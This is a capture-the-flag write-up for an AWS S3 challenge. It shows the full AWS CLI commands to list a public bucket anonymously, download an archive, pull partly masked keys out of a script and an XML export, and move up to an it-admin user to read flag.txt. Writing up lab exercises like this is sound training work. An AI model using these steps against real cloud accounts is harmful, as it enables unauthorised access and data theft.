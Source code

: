 # s3 Enumeration
## Analyze the challenge


The challenge asks to find the flag in the AWS S3 bucket `dev.challenge.com` which is related to a website found in a phished employee's bookmarks.
The flag format is MD5 hash unless specified otherwise.

## Plan of action

1. **Website Inspection:** Analyze the website and its source code.
2. **S3 Bucket Enumeration:** Use the AWS CLI to interact with the S3 bucket.
3. **Directory Exploration:** Investigate different directories within the bucket.
4. **File Download and Analysis:** Download and analyze files found in the bucket.
5. **Credential Discovery:** Identify and utilize AWS credentials found in the downloaded files.
6. **Privilege Escalation:** Escalate privileges by using discovered credentials to access more sensitive data.
7. **Flag Retrieval:** Locate and retrieve the flag.


1. **Website Inspection**

    -   Navigate to `http://dev.challenge.com`.
    -   View the page source to find references to an S3 bucket.
    -   The source code indicates that the S3 bucket `dev.challenge.com` is used for static files.


    The website itself doesn't reveal much, but the source code points to the S3 bucket, which is the next target.


2. **S3 Bucket Enumeration**

    -   Attempt to list the bucket contents using:
        -   `aws s3 ls s3://dev.challenge.com --no-sign-request`


    This command lists the bucket's contents, revealing several directories. The use of `--no-sign-request` is crucial for anonymous access.


3. **Directory Exploration**

    -   Attempt to recursively list all directories:
        -   `aws s3 ls s3://dev.challenge.com --no-sign-request --recursive` (fails for `admin` and `migration-files`)
    -   Check individual directories:
        -   `aws s3 ls s3://dev.challenge.com/admin --no-sign-request` (access denied)
        -   `aws s3 ls s3://dev.challenge.com/migration-files/ --no-sign-request` (access denied)
        -   `aws s3 ls s3://dev.challenge.com/static/ --no-sign-request` (accessible but contains only web files)
        -   `aws s3 ls s3://dev.challenge.com/shared/ --no-sign-request` (accessible and contains `hl_migration_project.zip`)


    The `admin` and `migration-files` directories are not publicly accessible. The `shared` directory contains a potentially interesting zip file.


4. **File Download and Analysis**

    -   Download `hl_migration_project.zip`:
        -   `aws s3 cp s3://dev.challenge.com/shared/hl_migration_project.zip . --no-sign-request`
    -   Unzip the archive:
        -   `unzip hl_migration_project.zip`
    -   Examine the `migrate_secrets.ps1` script.
        -   `cat migrate_secrets.ps1`


    The zip file was downloaded. The PowerShell script inside contains hardcoded AWS credentials.


5. **Credential Discovery**

    -   The `migrate_secrets.ps1` script contains:
        -   `$accessKey = "xxxxxxxxxxxxxxxKXEHU"`
        -   `$secretKey = "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxX/gb9"`
        -   `$region = "us-east-1"`
    -   Use `curl -I https://s3.amazonaws.com/dev.challenge.com/` to verify that the bucket is in `us-east-1`.
    -   Configure AWS CLI with these credentials:
        -   `aws configure` (Enter the access key, secret key, region as `us-east-1`, and leave the output format blank)
    -   Verify the credentials:
        -   `aws sts get-caller-identity` (This reveals the IAM user `pam-test`)


    The credentials were configured and verified. The `pam-test` user likely has limited permissions.

6. **Privilege Escalation**

    -   Try accessing the `/admin` directory again:
        -   `aws s3 ls s3://dev.challenge.com/admin/` (Lists `website_transactions_export.csv` and `flag.txt`)
    -   Attempt to download `flag.txt`:
        -   `aws s3 cp s3://dev.challenge.com/admin/flag.txt .` (access denied)
    -   Access the `/migration-files` directory:
        -   `aws s3 ls s3://dev.challenge.com/migration-files/`
    -   Download `test-export.xml`:
        -   `aws s3 cp s3://dev.challenge.com/migration-files/test-export.xml .`
    -   Examine `test-export.xml` for new credentials:
        -   `cat test-export.xml`
        -   AWS IT Admin:
            -   `AccessKeyID: xxxxxxxxxxxxxxFWFGCD`
            -   `SecretAccessKey: xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxbnL4hY6jP`
    -   Configure AWS CLI with the new credentials:
        -   `aws configure`
    -   Verify the credentials:
        -   `aws sts get-caller-identity` (This reveals the IAM user `it-admin`)


    The `pam-test` user couldn't access `flag.txt` but could access `test-export.xml`, which contained credentials for `it-admin`. This is a clear case of privilege escalation.


7. **Flag Retrieval**

    -   Attempt to download `flag.txt` with the `it-admin` credentials:
        -   `aws s3 cp s3://dev.challenge.com/admin/flag.txt .`
    -   Read the contents of `flag.txt`:
        -   `cat flag.txt` (This reveals the flag)


    The `it-admin` credentials allowed access to `flag.txt`. The flag was successfully retrieved.



xxxxxxxxxxxxxxxxxxxxxxxxxxx086b8.